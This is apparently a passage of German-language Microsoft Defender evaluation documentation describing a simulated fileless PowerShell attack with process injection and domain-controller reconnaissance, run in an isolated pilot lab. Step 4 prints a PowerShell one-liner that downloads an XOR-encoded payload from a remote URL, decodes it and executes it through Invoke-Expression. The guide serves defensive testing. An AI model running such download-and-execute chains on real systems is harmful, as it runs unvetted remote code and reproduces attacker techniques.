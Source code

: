 ![Dateiloser PowerShell-Angriff mit Prozessinjektion und SMB-Reconnaisance-Angriffsdiagramm](../../media/mtp/mtpdiydiagram.png)

Während der Simulation fügt der Angriff Shellcode in einen scheinbar unerschwungenen Prozess ein. Das Szenario erfordert die Verwendung von notepad.exe. Wir haben diesen Prozess für die Simulation ausgewählt, aber Angreifer würden wahrscheinlich eher auf einen lange ausgeführten Systemprozess abzielen, z. B. svchost.exe. Die Shellcode kontaktiert dann den Befehls- und Steuerungsserver (C2) des Angreifers, um Anweisungen zum Weiteren zu erhalten. Das Skript versucht, Abstimmungsabfragen für den Domänencontroller (DC) auszuführen. Mit der Reconnaissance kann ein Angreifer Informationen über die letzten Benutzeranmeldeinformationen abrufen. Sobald Angreifer über diese Informationen verfügen, können sie sich seitlich im Netzwerk bewegen, um zu einem bestimmten vertraulichen Konto zu gelangen.

> [!IMPORTANT]
> Um optimale Ergebnisse zu erzielen, befolgen Sie die Anweisungen zur Angriffssimulation so genau wie möglich.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Ausführen der isolierten AD DS-Domänencontroller-Angriffssimulation

So führen Sie die Simulation des Angriffsszenarios aus:

1. Stellen Sie sicher, dass Ihre Pilotumgebung den isolierten AD DS-Domänencontroller und Windows 10 Gerät enthält.

2. Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.

3. Öffnen Sie ein Windows PowerShell Fenster auf dem Testgerät.

4. Kopieren Sie das folgende Simulationsskript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

